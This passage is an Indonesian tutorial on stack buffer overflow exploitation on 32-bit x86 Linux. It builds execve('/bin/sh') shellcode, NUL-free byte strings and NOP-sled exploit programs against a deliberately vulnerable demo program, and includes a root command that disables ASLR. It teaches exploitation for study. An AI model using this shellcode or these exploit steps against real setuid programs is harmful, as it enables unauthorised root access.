





Shellcode
Di bagian sebelumnya, saya sudah membahas mengenai stack buffer overflow, dan bagaimana ini bisa digunakan untuk mengalihkan eksekusi program. Di bagian sebelumnya, fungsi yang akan dieksekusi sudah tersedia sebelumnya. Berikutnya yang ingin kita lakukan adalah mengeksekusi kode yang kita inginkan. Misalnya kode yang ingin kita eksekusi bisa: menjalankan shell, membuat file, menghapus file, mendengarkan koneksi jaringan, dsb. Jika kita melakukan sesuatu pada program yang memiliki bug buffer overflow untuk melakukan aksi tertentu, dikatakan kita mengeksploitasi buffer overflow pada program tersebut. Atau singkatnya kita mengeksploit program tersebut. Eksploitasi Biasanya ini dilakukan dengan program, dan program ini kita sebut sebagai exploit. Kode payload yang melakukan aksi tertentu pada sebuah exploit ini disebut sebagai shellcode*.
Dalam bagian ini saya akan menggunakan konteks stack buffer overflow untuk contoh shellcode. Pada bagian ini, arsitektur yang saya pakai adalan Intel x86 32 bit, di OS Linux. Ada sebagian kecil di mana saya membahas soal ARM (untuk menunjukkan perbedaan kode mesin).
Artikel legendaris mengenai stack overflow ditulis oleh Aleph one (http://www.phrack.com/issues.html?issue=49&id=14), saya akan menggunakan pendekatan yang berbeda darinya (meski sebagian mirip).
Berikut ini urutan pembahasan yang akan saya lakukan:
Data adalah kode
Semua komputer yang kita pakai (desktop, mobile) memakai arsitektur Von Neumann di mana data dan program tidak dibedakan. Sementara banyak microcontroller yang memakai arsitektur Harvard di mana data dan program dipisahkan. Dalam artikel ini, saya hanya akan membahas exploit pada komputer dengan arsitektur Von Neumann.
Berikut ini contoh program untuk menunjukkan bahwa data adalah program.
#include <stdio.h>
#include <stdlib.h>
char data[]= {0xc3};
char data2[] = { 0xb8, 0x2a, 0x00, 0x00, 0x00, 0xc3};
void (*f)(void);
int (*g)(void);
int main()
{
f = data;
f();
g = data2;
printf("g = %d\n", g());
return 0;
}
Compile program tersebut dengan gcc -fno-stack-protector -z execstack -o data-as-code data-as-code.c. Opsi -fno-stack-protector digunakan untuk mematikan opsi proteksi stack, dan opsi -z execstack
diperlukan agar kita bisa mengeksekusi kode di bagian data. Prosessor
Intel yang lama selalu mengasumsikan bahwa data sama dengan kode, namun
di prosessor baru, ada bit bernama NX (non executable) yang bisa diset
agar data tidak boleh dieksekusi (demi security). Output program
tersebut adalah:
g = 42
Variabel f dan g keduanya adalah pointer to function. Variabel f
yang merupakan pointer ke fungsi yang tidak menerima parameter apa-apa
dan tidak mengembalikan apa-apa (void) diassign agar menunjuk ke
variabel data yang merupakan array of char. Sedangkan g dmerupakan fungsi yang mengembalikan integer, dan diassign agar menunjuk ke variabel data2 yang juga merupakan array of char.
Ketika pointer to function f dipanggil, maka kode di dalam variabel data dieksekusi. Kode 0xc3 merepresentasikan instruksi ret (return) dalam assembly, jadi fungsi f tidak melakukan apa-apa (sekedar contoh fungsi pliang sederhana). Sementara data2 mengandung kode untuk mengembalikan nilai 42. Ini bisa kita lihat dengan objdump -D namafile:
Disassembly of section .data:
00000000 <data>:
0: c3 ret
00000001 <data2>:
1: b8 2a 00 00 00 mov $0x2a,%eax
6: c3 ret
Untuk prosessor ARM, gunakan kode berikut untuk menggantikan data dan data2:
char data[]= {
0x0e, 0xf0, 0xa0, 0xe1 // mov pc, lr
};
char data2[] = {
0x2a, 0x00, 0xa0, 0xe3, // mov r0, #42
0x0e, 0xf0, 0xa0, 0xe1, // mov pc, lr
};
Perhatikan bahwa kode bahasa mesin berbeda antara satu prosessor dengan prosessor lainnnya.
Menaruh kode di stack
Dalam artikel bagian sebelumnya, saya mengeset alamat kembalian ke sebuah fungsi lain. Alamat apapun bisa diberikan, termasuk juga alamat memori di stack. Ingat bahwa data bisa diinterpretasi sebagai kode. Jika kita bisa memasukkan kode ke stack, maka kita bisa melompat ke alamat itu di stack. Ada dua hal yang akan saya bahas: Pertama kita ingin memiliki kode yang akan dieksekusi. Bagian kedua: kita ingin agar bisa mengeksekusi kode tersebut.
Dari C ke kode mesin
Kita bisa menulis kode apa saja, tapi biasanya yang kita inginkan adalah menjalankan shell, yang biasanya adalah /bin/sh. Jika kita mengeksploitasi program yang memiliki bit setuid
root, maka shell yang dijalankan akan memiliki akses root. Untuk Anda
yang mahir assembly, menulis kode dalam assembly sangat mudah. Bagaimana
jika Anda masih kurang mahir assembly? Anda bisa mengubah bahasa C ke
kode bahasa mesin dengan gcc dan objdump. Gunakan opsi -Os untuk mendapatkan kode assembly sekecil mungkin, atau -O3 untuk mendapatkan kode seoptimal mungkin.
#include <stdio.h>
char *name[2] = {"/bin/sh", 0};
void main() {
execve(name[0], name, NULL);
}
Pertama kita lihat bagaimana fungsi main dikompilasi
yohanes@development:~$ gdb ./a.out
GNU gdb 6.8-debian
Copyright (C) 2008 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu"...
(gdb) disas main
Dump of assembler code for function main:
0x08048230 <main+0>: push %ebp
0x08048231 <main+1>: mov %esp,%ebp
0x08048233 <main+3>: and $0xfffffff0,%esp
0x08048236 <main+6>: sub $0x10,%esp
0x08048239 <main+9>: mov 0x80c7588,%eax
0x0804823e <main+14>: movl $0x0,0x8(%esp)
0x08048246 <main+22>: movl $0x80c7588,0x4(%esp)
0x0804824e <main+30>: mov %eax,(%esp)
0x08048251 <main+33>: call 0x804e630 <execve>
0x08048256 <main+38>: leave
0x08048257 <main+39>: ret
End of assembler dump.
Beberapa baris yang penting adalah:
0x08048239 <main+9>: mov 0x80c7588,%eax
0x0804823e <main+14>: movl $0x0,0x8(%esp)
0x08048246 <main+22>: movl $0x80c7588,0x4(%esp)
0x0804824e <main+30>: mov %eax,(%esp)
0x08048251 <main+33>: call 0x804e630 <execve>
Kita periksa alamat 0x80c7588
(gdb) x 0x80c7588
0x80c7588 <name>: 0x080aa1a8
Ternyata isinya variabel name, yang tipenya adalah char **. Kita bisa melihat isinya name[0]:
(gdb) x/s ((char**)0x80c7588)[0]
0x80aa1a8: "/bin/sh"
Instruksi-instruksi tersebut ekivalen dengan :
push 0
push <alamat name[0]>
push <alamat name>
call execve
Sekarang apa yang terjadi di fungsi execve?
(gdb) disas execve
Dump of assembler code for function execve:
0x0804e630 <execve+0>: push %ebp
0x0804e631 <execve+1>: mov %esp,%ebp
0x0804e633 <execve+3>: mov 0x10(%ebp),%edx
0x0804e636 <execve+6>: push %ebx
0x0804e637 <execve+7>: mov 0xc(%ebp),%ecx
0x0804e63a <execve+10>: mov 0x8(%ebp),%ebx
0x0804e63d <execve+13>: mov $0xb,%eax
0x0804e642 <execve+18>: int $0x80
0x0804e644 <execve+20>: mov %eax,%edx
0x0804e646 <execve+22>: cmp $0xfffff000,%edx
0x0804e64c <execve+28>: ja 0x804e651 <execve+33>
0x0804e64e <execve+30>: pop %ebx
0x0804e64f <execve+31>: pop %ebp
0x0804e650 <execve+32>: ret
0x0804e651 <execve+33>: mov $0xffffffe8,%eax
0x0804e656 <execve+38>: neg %edx
0x0804e658 <execve+40>: mov %edx,%gs:(%eax)
0x0804e65b <execve+43>: mov $0xffffffff,%eax
0x0804e660 <execve+48>: jmp 0x804e64e <execve+30>
End of assembler dump.
Baris yang penting adalah:
0x0804e633 <execve+3>: mov 0x10(%ebp),%edx -> param 2
0x0804e636 <execve+6>: push %ebx
0x0804e637 <execve+7>: mov 0xc(%ebp),%ecx -> param 1
0x0804e63a <execve+10>: mov 0x8(%ebp),%ebx -> param 0
0x0804e63d <execve+13>: mov $0xb,%eax
0x0804e642 <execve+18>: int $0x80
Instruksi int $0x80 merupakan instruksi untuk melakukan syscall pada Linux x86 (32 bit). System call (syscall)
merupakan cara suatu program meminta layanan dari sistem operasi.
Singkatnya: ini memungkinan program memanggil fungsi kernel. Biasanya
sebagai programmer aplikasi, kita tidak perlu tahu tentang syscall,
karena ini berbeda di tiap OS. Programmer aplikasi biasanya akan
memanggil fungsi di librar C, dan library itu yang akan memetakan sebuah
fungsi (misalnya open) dengan syscall yang bersesuaian untuk OS tersebut.
Di Linux x86, parameter ke kernel diberikan melalui register.
Register EAX = nomor fungsi syscall (0x0b = 11 desimal adalah syscall
untuk execve). Register ebx, ecx, edx berturut merupakan parameter pertama, kedua dan ketiga untuk syscall.
Position independent code
Jika fungsi main dan fungsi execve digabung, maka untuk melakukan eksekusi shell:
mov <alamat name>, %ebx
mov <alamat name[0]>, %ecx
mov $0, %edx
mov $0xb, %eax
int $0x80
Tapi ada beberapa masalah dengan kode tersebut: kode tersebut tidak mengandung isi variabel name, dan kita belum tahu alamat name.
Kita tidak bisa menggunakan alamat konstan, karena kode ini akan
diinjeksikan ke lokasi stack yang (biasanya) tidak kita ketahui
alamatnya. Kita menginginkan kode yang bisa dieksekusi, tidak tergantung
pada alamat memori tempat kode tersebut berada, ini disebut sebagai position independent code.
Strategi kita adalah sebagai berikut: kita letakkan string /bin/sh setelah kode program (setelah int $0x80), lalu kita akan berusaha mencari alamatnya dengan teknik call lalu pop. Teknik ini sederhana:
Nah sekarang %eax berisi alamat x. Mengapa bisa begitu? ketika call x dipanggil, alamat instruksi berikutnya setelah call x adalah pop %eax dan nilai tersebut di push ke stack. Ketika di-pop, kita mendapatkan alamat instruksi pop %eax saat ini di memori. Sekarang kita bisa menaruh string "/bin/sh" setelah kode kita:
call start
start: pop %eax
add N, %eax -> N adalah jumlah byte dari start sampai name[0]
mov %eax, %ecx -> sekarang %ecx berisi alamat name[0]
sub 8, %eax -> mundur 8 byte
mov %eax, (%ecx)
mov %eax, %ebx
xor %edx, %edx
mov $0xb, %eax
int $0x80
"/bin/sh\0" -> string dengan terminasi NUL ('\0')
name[0]: <alamat "/bin/sh"> -> ukurannya 4 byte
name[1]: 0 -> ukurannya 4 byte
Catatan: NUL (satu L) adalah nama karakter dalam ASCII yang kodenya adalah 0. NULL (dua L) adalah pointer yang menunjuk alamat 0x0.
Mari kita coba kode tersebut:
#include <stdio.h>
void shell()
{
__asm__ volatile (
"call .start \n"
".start:\n"
"pop %eax \n"
"addl $(.names-.start), %eax \n" //N adalah jumlah byte dari start sampai name[0]
"mov %eax, %ecx\n" // sekarang %ecx berisi alamat name[0]
"subl $8, %eax\n" // mundur 8 byte
"movl %eax, (%ecx)\n"
"movl %eax, %ebx\n"
"xorl %edx, %edx\n"
"movl $11, %eax\n"
"int $0x80\n"
".string \"/bin/sh\" \n" // -> string
".names:"
".long 0\n" // -> ukurannya 4 byte
".long 0\n" // -> ukurannya 4 byte
);
}
#define CODE_SIZE 48
char data[CODE_SIZE];
void (*myshell)(void);
int main()
{
memcpy(data, shell, CODE_SIZE);
printf("myshell\n");
myshell = data;
myshell();
return 0;
}
Compile program tersebut dengan:
gcc -fomit-frame-pointer -g -fno-stack-protector -z execstack shell-1.c
Opsi -fomit-frame-pointer akan menyebabkan gcc tidak menghasilkan prolog dan epilog fungsi (push %ebp, mov %esp, %ebp, dsb), agar kode assembly yang kita buat di fungsi shell tidak diberi tambahan apa-apa.
Fungsi shell tidak bisa kita eksekusi, karena kode program tersebut berusaha memodifikasi dirinya (memodifikasi pointer ke names yang berada di code section). Di berbagai OS hal tersebut tidak diijinkan, agar kode program boleh memodifikasi dirinya, kode tersebut perlu disalin ke data section. Dalam contoh yang saya buat, kode dari fungsi shell dicopy ke array data menggunakan memcpy. Untuk mendapatkan ukuran kode fungsi shell, pertama ukurannya diperkirakan dulu, lalu kita compile programnya, lihat besar sebenarnyafungsi shell (offset akhir fungsi minus offset awal), lalu ganti baris #define CODE_SIZE xx dengan nilai yang benar.
Contoh eksploitasi
Untuk contoh, saya akan membuat program sederhana yang mengandung
buffer overflow. Program ini sangat sederhana: hanya membaca string nama
dari sebuah file data.dat, pertama program akan membaca
panjang nama, lalu membaca karakter namanya. Masalah dengan program ini
adalah: program tersebut tidak mengecek panjang nama sebelum membaca
data dari file. Program juga akan mencetak alamat variabel nama untuk
memudahkan eksploitasi.
/*load.c akan dikompilasi menjadi "load"*/
/*kompilasi dengan gcc -fno-stack-protector -z execstack load.c -o load*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void load_file(const char *filename)
{
int namelen;
FILE *f;
char name[128];
f = fopen(filename, "r");
if (!f) {
printf("error opening file");
return;
}
fread(&namelen, sizeof(namelen), 1, f);
printf("len = %d\n", namelen);
memset(name, 0, sizeof(name));
fread(name, namelen, 1, f);
printf("name = %s\n", name);
printf("address of name = %p\n", name);
}
int main(int argc, char *argv[])
{
load_file("data.dat");
}
Meskipun contoh bug ini kelihatan agak mengada-ada, namun bug semacam ini ditemukan di beberapa game dalam penanganan savegame. Bahkan beberapa game console berhasil dihack karena bug semacam ini.
Saya akan menggambarkan kira-kira posisi stack fungsi load_file, tapi tidak dengan alamat mutlak.

Sebenarnya urutan variabel di stack tidak harus selalu namelen, f, lalu name. Compiler bebas memilih letak variabel. Jadi bisa saja seperti ini:

Teorinya untuk bisa menginjeksikan kode, kita ingin menaruh kode kita di name[0] dan seterusnya sampai panjangnya kode. Selain itu kita ingin menimpa alamat kembali supaya menunjuk ke name[0]

Bagaimana kita bisa tahu alamat absolut name[0] di memori? dalam contoh ini sangat mudah, karena program yang dieksploitasi mencetak alamat variabel name (setelah teks address of name). Untuk program yang real kita perlu memperbaiki exploit kita (akan dijelaskan di bagian lain).
Perhatikan bahwa di OS modern, Address Space Layout Randomization diaktifkan secara default, ini akan menyebabkan posisi stack selalu berubah ketika program dieksekusi (menyulitkan eksploit). Di Linux, untuk menonaktifkan proteksi tersebut, gunakan perintah (sebagai root): echo "0" > /proc/sys/kernel/randomize_va_space
Untuk membuat exploit, kita perlu membuat file data yang berisi
integer yang menyatakan panjang string (panjangnya harus > 128 agar
menimpa return address). Bagian awal nama berisi shellcode yang akan dieksekusi, dan bagian akhir (yang menimpa return address) perlu kita isi dengan alamat name.
Pertama kita buat dulu program sederhana yang akan menyimpan name yang hanya berupa string "Jonathan".
/*save.c akan dikompilasi menjadi "save"*/
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
char data[] = "Jonathan";
int len;
FILE *f;
len = strlen(data);
printf("len = %d\n", len);
f = fopen("data.dat", "w");
fwrite(&len, sizeof(len), 1, f);
fwrite(data, len, 1, f);
fclose(f);
}
Ketika program itu dijalankan, maka file data.dat akan tercipta. Dan ketika load dijalankan:
yohanes@development:~$ ./load
len = 8
name = Jonathan
address of name = 0xbffff778
Coba jalankan beberapa kali, jika address of name berubah, artinya ASLR aktif (non aktifkan dulu untuk mencoba sisa artikel ini). Sekarang kita membuat program eksploit:
/*save-exploit.c
Compile dengan: gcc -fomit-frame-pointer save-exploit.c -o save-exploit
*/
#include <stdio.h>
#include <string.h>
void shell()
{
__asm__ volatile (
"call .start \n"
".start:\n"
"pop %eax \n"
"addl $(.names-.start), %eax \n" //N adalah jumlah byte dari start sampai name[0]
"mov %eax, %ecx\n" // sekarang %ecx berisi alamat name[0]
"subl $8, %eax\n" // mundur 8 byte
"movl %eax, (%ecx)\n"
"movl %eax, %ebx\n"
"xorl %edx, %edx\n"
"movl $11, %eax\n"
"int $0x80\n"
".string \"/bin/sh\" \n" // -> string
".names:"
".long 0\n" // -> ukurannya 4 byte
".long 0\n" // -> ukurannya 4 byte
);
}
#define CODE_SIZE 48
int main(int argc, char *argv[])
{
char data[128+32];
int len = 128 + 32;
FILE *f;
int i;
int *data_as_int;
unsigned int return_address;
if (argc<2) {
printf("usage: save-exploit <address>");
return 0;
}
return_address = strtoul(argv[1], 0, 16);
printf("using return address %08x\n", return_address);
memset(data, 0x90, sizeof(data));
memcpy(data, shell, CODE_SIZE);
data_as_int = (int *)(data + 128);
for(i=0; i<8; i++) {
data_as_int[i] = return_address;
}
f = fopen("data.dat", "w");
printf("len = %d\n", len);
fwrite(&len, sizeof(len), 1, f);
fwrite(data, len, 1, f);
fclose(f);
}
Bagian fungsi shell sudah dibahas, jadi saya akan masuk ke fungsi main saja. Buffer name mampu menampung 128 byte. Kita menambahkan 32 byte yang akan kita isi dengan alamat address of name.
Seharusnya kita cukup menimpa EBP dan return address (masing-masing 4
byte, jadi totalnya 8 byte), tapi karena kemungkinan adanya
padding/alignment oleh compiler, dan ada kemungkinan bahwa urutan
variabelnya dibalik oleh compiler di stack, maka untuk amannya saya
menggunakan 32 byte (toh kalau berlebihpun tidak apa-apa). Saya
mengulangi nilai return address 8 kali, agar pasti berhasil menimpa return address di stack.
Berdasarkan alamat yang didapat dari program load:
yohanes@development:~$ ./save-exploit bffff778
using return address bffff778
len = 160
Nah sekarang kita jalankan program load sekali lagi:
yohanes@development:~$ ./load
len = 160
name = �
address of name = 0xbffff778
sh-3.2$
Perhatikan bahwa kita berhasil menjalankan shell. Andaikan program load merupakan program setuid root, maka kita sudah mendapatkan akses root.
Exploit yang reliable
Ada beberapa masalah dengan kode eksploit yang saya jelaskan. Pertama
adalah: kode tersebut mengandung karakter '\0' atau NUL. Dalam kasus
fungsi fread semua byte akan dibaca atau memcpy semua byte akan dicopy (sesuai ukurannya). Tapi dalam kasus manipulasi string (strcpy, strcat,
dsb), byte 0 akan menghentikan proses penyalinan atau pemrosesan
karakter. Jadi target pertama untuk exploit yang lebih reliable adalah
membuat shellcode yang bisa dipakai di berbagai konteks.
Masalah berikutnya adalah: menentukan alamat variabel di stack. Di program sebelumnya, program yang dieksploitasi "memberi tahu" posisi stack variabel. Di real world tentunya program tidak akan melakukan hal itu (kecuali )
Kita coba selesaikan masalah pertama: menghilangkan NUL dari shellcode. Jika kita lihat shellcode saat ini:
080483f4 <shell>:
80483f4: e8 00 00 00 00 call 80483f9 <.start>
080483f9 <.start>:
80483f9: 58 pop %eax
80483fa: 05 20 00 00 00 add $0x20,%eax
80483ff: 89 c1 mov %eax,%ecx
8048401: 83 e8 08 sub $0x8,%eax
8048404: 89 01 mov %eax,(%ecx)
8048406: 89 c3 mov %eax,%ebx
8048408: 31 d2 xor %edx,%edx
804840a: b8 0b 00 00 00 mov $0xb,%eax
804840f: cd 80 int $0x80
Ada banyak byte 00 di situ:
e8 00 00 00 00 call 80483f9 <.start>
...
05 20 00 00 00 add $0x20,%eax
...
b8 0b 00 00 00 mov $0xb,%eax
Ada beberapa byte 0 di data: "/bin/sh" diterminasi oleh byte '\0' ), lalu array names juga perlu berisi 0 di names[1].
Untuk instruksi pertama, ini bisa diatasi dengan sedikit trik: ini memerlukan pemahaman instruction encoding prosessor. Singkatnya begini: call
diikuti alamat relatif dari posisi saat ini. Dalam contoh ini, call
akan menuju ke 0 byte (sehingga kode setelah e8 adalah 00 00 00 00)
setelah instruksi saat ini. Jika instruksi yang dicall adalah sebelum
posisi saat ini, maka offsetnya negatif. Instruksi mov $0xb,%eax bisa diganti dengan dua instruksi:xorl %eax, %eaxdanaddb $11, %al(ataumovb $11, %al`).
Sekarang semua instruksi sudah bebas dari byte 0 . masalah lain adalah data: string "/bin/sh" diterminasi dengan '\0'. Kita perlu mengeset karakter ini dari kode. Hasil akhir adalah:
void shell()
{
__asm__ volatile (
"jmp .done\n"
".start:\n"
"pop %eax \n"
"leal 0x8(%eax), %ecx\n" // sekarang %ecx berisi alamat name[0]
"movl %eax, (%ecx)\n"
"movl %eax, %ebx\n"
"xorl %edx, %edx\n"
"movb %dl, 0x7(%eax)\n"
"movl %edx, 0xc(%eax)\n"
"xor %eax, %eax\n"
"movb $11, %al\n"
"int $0x80\n"
".done: call .start\n"
".ascii \"/bin/sh\" \n" // -> string
".byte 0x90\n"
".names:"
".long 0x90909090\n" // -> ukurannya 4 byte
".long 0x90909090\n" // -> ukurannya 4 byte
);
}
Byte-byte terakhir saya isi dengan 0x90 (instruksi NOP), supaya bagus jika didisassembly. Shellcode final yang akan diinjeksi ke program lain tidak butuh itu.
080483f4 <shell>:
80483f4: eb 16 jmp 804840c <.done>
080483f6 <.start>:
80483f6: 58 pop %eax
80483f7: 8d 48 08 lea 0x8(%eax),%ecx
80483fa: 89 01 mov %eax,(%ecx)
80483fc: 89 c3 mov %eax,%ebx
80483fe: 31 d2 xor %edx,%edx
8048400: 88 50 07 mov %dl,0x7(%eax)
8048403: 89 50 0c mov %edx,0xc(%eax)
8048406: 31 c0 xor %eax,%eax
8048408: b0 0b mov $0xb,%al
804840a: cd 80 int $0x80
0804840c <.done>:
804840c: e8 e5 ff ff ff call 80483f6 <.start>
8048411: 2f das
8048412: 62 69 6e bound %ebp,0x6e(%ecx)
8048415: 2f das
8048416: 73 68 jae 8048480 <__libc_csu_init>
8048418: 90 nop
08048419 <.names>:
8048419: 90 nop
804841a: 90 nop
804841b: 90 nop
804841c: 90 nop
804841d: 90 nop
804841e: 90 nop
804841f: 90 nop
8048420: 90 nop
Bagian label .done berisi instruksi aneh, karena
sebenarnya itu berisi data ("/bin/sh"). Shell code yang kita butuhkan
adalah semua byte sebelum nop pertama dalam listing tersebut:
eb 16
58
8d 48 08
89 01
89 c3
31 d2
88 50 07
89 50 0c
31 c0
b0 0b
cd 80
e8 e5 ff ff ff
2f
62 69 6e
2f
73 68
Lebih bagus lagi jika dilihat horizontal:
eb 16 58 8d 48 08 89 01 89 c3 31 d2 88 50 07 89 50 0c 31 c0 b0 0b cd 80 e8 e5 ff ff ff 2f 62 69 6e 2f 73 68
Kita bisa menuliskannya sebagai array of character di C:
char shell[] = {
0xeb, 0x16, 0x58, 0x8d, 0x48, 0x08, 0x89, 0x01, 0x89, 0xc3, 0x31, 0xd2,
0x88, 0x50, 0x07, 0x89, 0x50, 0x0c, 0x31, 0xc0, 0xb0, 0x0b, 0xcd, 0x80,
0xe8, 0xe5, 0xff, 0xff, 0xff, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68
};
Atau biasanya orang lain lebih suka menulis dalam bentuk string C:
char shell[] =
"\xeb\x16\x58\x8d\x48\x08\x89\x01\x89\xc3\x31\xd2"
"\x88\x50\x07\x89\x50\x0c\x31\xc0\xb0\x0b\xcd\x80"
"\xe8\xe5\xff\xff\xff/bin/sh";
Sekarang kita ke masalah berikutnya: Menentukan alamat suatu variabel dengan benar. Menentukan alamat variabel dengan benar memang sangat sulit, yang bisa kita lakukan adalah mengira-ngira.Coba kita lihat lagi gambar sebelumnya, tapi saya tambahkan kemungkinan yang terjadi jika kita memberi tebakan alamat kembalian:

Kemungkinannya adalah:
- Kasus A: tebakan kita tepat benar, shellcode akan dieksekusi
- Kasus B: tebakan kita salah, kita menunjuk ke variabel lain di stack
- Kasus C: tebakan kita hampir benar, tapi mungkin terlewat beberapa byte
- Kasus D dan E: tebakan kita meleset jauh, terlalu rendah atau tinggi
Di sistem yang tidak memakai proteksi ASLR, alamat stack bisa kita
perkirakan. Caranya mudah: coba buat program kecil, dan lihat alamat
variabel lokal di program saat ini. Program lain akan memiliki alamat
serupa. Dalam kasus A, D, dan E, tidak ada yang bisa kita lakukan (kita
meleset jauh dari shellcode). Dalam kasus B, jika beruntung maka
shellcode akan bisa dieksekusi (misalnya kebetulan nilainya namelen dan f adalah instruksi yang tidak membuat crash, maka kode di name[0]).
Dalam shellcode sebelumnya, saya menaruh awal shellcode di awal buffer. Jika alamat kembali ternyata meleset, maka prosessor akan mengeksekusi kode tidak dari awal. Untuk memperbesar kemungkinan sukses, kita bisa membuat supaya shellcode diawali dengan instruksi NOP (no operation, yang tidak melakukan apa-apa). Strateginya begini:

Dalam kasus C, jika alamat kembali salah, dan misalnya kita mendarat di name[1], maka kode shell akan tetap berjalan. Jika meleset ke name[2] atau name[3] dst pun masih akan berjalan, asalkan mendarat di posisi NOP.
/*save-exploit-v2.c
Compile dengan: gcc -fomit-frame-pointer save-exploit-v2.c -o save-exploit-v2
*/
#include <stdio.h>
#include <string.h>
char shell[] =
"\xeb\x16\x58\x8d\x48\x08\x89\x01\x89\xc3\x31\xd2"
"\x88\x50\x07\x89\x50\x0c\x31\xc0\xb0\x0b\xcd\x80"
"\xe8\xe5\xff\xff\xff/bin/sh";
#define BUFFER_SIZE 128
#define EXTRA_OVERFLOW 32
int main(int argc, char *argv[])
{
char data[BUFFER_SIZE + EXTRA_OVERFLOW];
int len = BUFFER_SIZE + EXTRA_OVERFLOW;
FILE *f;
int i;
int *data_as_int;
unsigned int return_address;
if (argc<2) {
printf("usage: save-exploit <offsetguess>");
return 0;
}
return_address = (int)&data[0] + atoi(argv[1]);
printf("using return address %08x\n", return_address);
memset(data, 0x90, sizeof(data));
memcpy(data + (BUFFER_SIZE-strlen(shell)), shell, strlen(shell));
data_as_int = (int *)(data + BUFFER_SIZE);
for(i=0; i<(EXTRA_OVERFLOW)/sizeof(return_address); i++) {
data_as_int[i] = return_address;
}
f = fopen("data.dat", "w");
printf("len = %d\n", len);
fwrite(&len, sizeof(len), 1, f);
fwrite(data, len, 1, f);
fclose(f);
}
Sekarang program save-exploit-v2 tidak perlu lagi alamat
mutlak di mana alamat buffer, kita hanya perlu memberi nilai offset
saja. Nilai offset tersebut akan ditambahkan ke salah satu variabel
stack saat ini (saya mengambil alamat data[0]). Ketika
sebuah program berjalan, alamat stack akan bertambah dan berkurang, tapi
tidak jauh dari nilai awal (yang sama untuk setiap program di sistem
tanpa ASLR).
Catatan: sebenarnya ini
&data[0]cukup ditulis(int)data, tapi saya hanya ingin memperjelas bahwa saya mengambil suatu alamat awal sebuah array.
Kita bisa mencoba menjalankan program ini seperti ini (selang seling dengan load
untuk mengetes exploit). Pertama kita coba dengan offset 0, lalu karena
gagal, saya coba tambahkan dengan 64 (1/2 ukuran buffer), lalu saya
coba lagi dengan 128. Di usaha yang ketiga saya sudah berhasil,
perhatikan bahwa saya memakai offset 0xbffff7a0 sedangkan lokasi eksak buffer name ada di 0xbffff778, tapi eksploitnya tetap berjalan.
yohanes@development:~$ ./save-exploit-v2 0
using return address bffff720
len = 160
yohanes@development:~$ ./load
len = 160
name = ���������������������������������������������������������������������������������������������X����҈P�P
1�̀
����/bin/sh �� �� �� �� �� �� �� �������u'�
address of name = 0xbffff778
Segmentation fault
yohanes@development:~$ ./save-exploit-v2 64
using return address bffff760
len = 160
yohanes@development:~$ ./load
len = 160
name = ���������������������������������������������������������������������������������������������X����҈P�P
1�̀
����/bin/sh`��`��`��`��`��`��`��`�������u'�
address of name = 0xbffff778
Segmentation fault
yohanes@development:~$ ./save-exploit-v2 128
using return address bffff7a0
len = 160
yohanes@development:~$ ./load
len = 160
name = ���������������������������������������������������������������������������������������������X����҈P�P
1�̀
����/bin/sh�����������������������������u'�
address of name = 0xbffff778
sh-3.2$
Penutup
Topik dasar untuk eksploitasi stack overflow sudah saya bahas, namun masih ada beberapa hal yang tersisa. Pertama adalah mengenai "aneka macam shellcode". Kedua adalah proteksi stack overflow dan bagaimana melewati proteksi tersebut (yang kadang bisa dilakukan, kadang tidak). Ketiga adalah teknik eksploitasi tingkat lanjut.
Shellcode yang dibahas di sini adalah shellcode untuk x86 di OS Linux, shellcode tersebut hanya menjalankan shell saja. Masih ada banyak varian shellcode lain:
- Shellcode untuk prosessor lain dengan OS yang sama (misalnya Linux di ARM). Perbedaannya ada pada perbedaan instruksi untuk syscall
- Shellcode untuk OS lain
- Shellcode yang melakukan aksi selain menjalankan shell (misalnya mendengarkan paket jaringan, menambah user, dsb)
- Shellcode dengan karakteristik tertentu, misalnya hanya terdiri atas karakter alfanumerik, sehingga bisa lolos filter
Mungkin saya akan membahas sebagian shellcode yang lain. Untuk saat ini Anda bisa mendapatkan berbagai macam shellcode dari http://www.exploit-db.com/shellcode/. Saat artikel ini ditulis, ada lebih dari 400 shellcode di situs tersebut.
Hal kedua adalah mengenai teknik untuk menghambat eksekusi eksploit stack overflow. Beberapa teknik yang ada saat ini adalah:
- Kenari (Canary): proteksi level compiler untuk mencegah kondisi stack yang corrupt
